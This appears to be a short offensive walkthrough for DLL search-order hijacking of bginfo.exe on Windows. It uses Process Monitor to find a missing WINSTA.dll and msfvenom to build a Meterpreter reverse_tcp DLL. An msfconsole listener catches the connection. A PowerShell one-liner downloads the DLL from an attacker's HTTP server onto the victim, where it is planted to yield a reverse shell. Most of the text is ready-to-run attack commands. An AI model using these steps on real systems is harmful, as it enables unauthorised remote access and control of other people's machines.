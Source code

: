 1. Download process monitor and bginfo
2. use procmon.exe to monitor running processes
3. Filter the results - process name=bginfo.exe, result is NAME NOT FOUND, PATH ENDS WITH DLL
4. Execute bginfo.exe
5. find WINSTA.dll and see where the executable looks for it
6. Build a malicious dll using msfvenom - msfvenom -p windows/meterpreter/reverse_tcp lhost=[attackers ip] lport=4444 -f dll -o mal.dll
7. Start a listener using msfconsole:
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost eth0
	set lport 4444
	exploit
8. Upload the generated dll to the victim's machine:
	attacker - python3 -m http.server
	victim -  (New-Object Net.webclient).DownloadFile(['url/file'],'path')
9. Put the dll in a directory that is part of the default search folder
10. Rename the malicious DLL to the vulnerable dll
11. Execute the program to get a reverse shell